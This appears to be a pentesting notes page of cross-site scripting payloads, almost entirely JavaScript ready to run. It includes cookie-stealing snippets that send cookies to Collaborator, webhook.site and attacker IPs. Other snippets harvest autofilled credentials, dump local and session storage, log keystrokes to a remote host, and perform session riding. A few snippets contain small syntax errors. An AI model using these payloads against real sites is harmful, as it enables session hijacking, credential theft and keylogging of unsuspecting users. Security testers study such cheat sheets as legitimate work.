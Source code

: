 # Payloads

{% hint style="info" %}
[XSS Filter Evasion Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) (OWASP)
{% endhint %}

{% hint style="info" %}
In **modern HTML** (_HTML5_), the `/` at the end of a self-closing tag is optional, but in **XHTML** is required.
{% endhint %}

## Stealing Cookies

{% tabs %}
{% tab title="img" %}
```javascript
<img src="http://localhost?c='+document.cookie+'" />
```
{% endtab %}

{% tab title="fetch" %}
```javascript
fetch("http://localhost?c="+document.cookie);
```
{% endtab %}

{% tab title="Collaborator" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', 
    {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
    });
</script>
```
{% endtab %}

{% tab title="Webhook" %}
{% code overflow="wrap" %}
```javascript
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}
{% endtab %}

{% tab title="external" %}
{% code title="xss.js" %}
```javascript
// save the value of the cookie in a variable
let cookie = document.cookie
// URL-encode the variable
let encodedCookie = encodeURIComponent(cookie)
// make a GET request to our attacker machine exfiltrating the cookie
fetch("http://192.168.45.214/exfil?data=" + encodedCookie)
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Autofilled Credentials

{% tabs %}
{% tab title="createForm.js" %}
{% code title="createForm.js" overflow="wrap" %}
```javascript
// create the input elements
let usernameField = document.createElement("input")
usernameField.type = "text"
usernameField.name = "username"
usernameField.id = "username"

let passwordField = document.createElement("input")
passwordField.type = "password"
passwordField.name = "password"
passwordField.id = "password"

// append the elements to the body of the page
document.body.appendChild(usernameField)
document.body.appendChild(passwordField)

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)
setTimeout(function() {
 console.log("Username:", document.getElementById("username").value)
 console.log("Password:", document.getElementById("password").value)
}, 1000);
```
{% endcode %}
{% endtab %}

{% tab title="savedCreds.js" %}
{% code title="savedCreds.js" %}
```javascript
// save the body of the document into a var
let body = document.getElementsByTagName("body")[0]

// create the username element
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

// create the password element
var p = document.createElement("input");
p.type = "password";
u.style.position = "fixed";
//u.style.opacity = "0";

// append elements to the body
body.append(u)
body.append(p)

// set a GET request after a 5 second timeout
setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Local Secrets

{% tabs %}
{% tab title="Local Storage" %}
```javascript
let data = JSON.stringify(localStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}

{% tab title="Session Storage" %}
```javascript
let data = JSON.stringify(sessionStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}
{% endtabs %}

## Session Riding

{% tabs %}
{% tab title="XMLHttpRequest" %}
```javascript
let xhr = new XMLHttpRequest();
xhr.open('POST','http://localhost/updateprofile',true);
xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
xhr.send('email=updated@email.com’);
```
{% endtab %}
{% endtabs %}

## Keylogging

{% tabs %}
{% tab title="Log keypresses" %}
```javascript
document.onkeypress = function(e) {
 get = window.event ? event : e
 key = get.keyCode ? get.keyCode : get.charCode
 key = String.fromCharCode(key)
 console.log(key)
}
```
{% endtab %}

{% tab title="Fetch keypresses" %}
{% code title="keylogger.js" %}
```javascript
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key)
}
// for each keypress, execute the callback function
document.addEventListener('keydown', logKey);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Remote Resources

{% tabs %}
{% tab title="fetch" %}
```javascript
fetch('http://localhost/endpoint’)
```
{% endtab %}

{% tab title="img" %}
```javascript
<img src='http://localhost/file' />
<img src='x' onerror='http://localhost/file' />
<img src="x" onerror="window.location.href='http://localhost/file'">
```
{% endtab %}

{% tab title="script" %}
```javascript
<script src='http://localhost/file'></script>
```
{% endtab %}
{% endtabs %}

## Sorcery?

{% tabs %}
{% tab title="?" %}
{% code overflow="wrap" %}
```javascript
javascript:(function(){var scripts=document.getElementsByTagName("script"),regex=/(?<=("|'|`))/[a-zA-Z0-9_?&=/-#.]*(?=("|'|`))/g;const%20results=new%20Set;for(var%20i=0;i<scripts.length;i++){var%20t=scripts[i].src;""!=t&&fetch(t).then(function(t){return%20t.text()}).then(function(t){var%20e=t.matchAll(regex);for(let%20r%20of%20e)results.add(r[0])}).catch(function(t){console.log("An%20error%20occurred:%20",t)})}var%20pageContent=document.documentElement.outerHTML,matches=pageContent.matchAll(regex);for(const%20match%20of%20matches)results.add(match[0]);function%20writeResults(){results.forEach(function(t){document.write(t+"<br>")})}setTimeout(writeResults,3e3);})();
```
{% endcode %}
{% endtab %}
{% endtabs %}

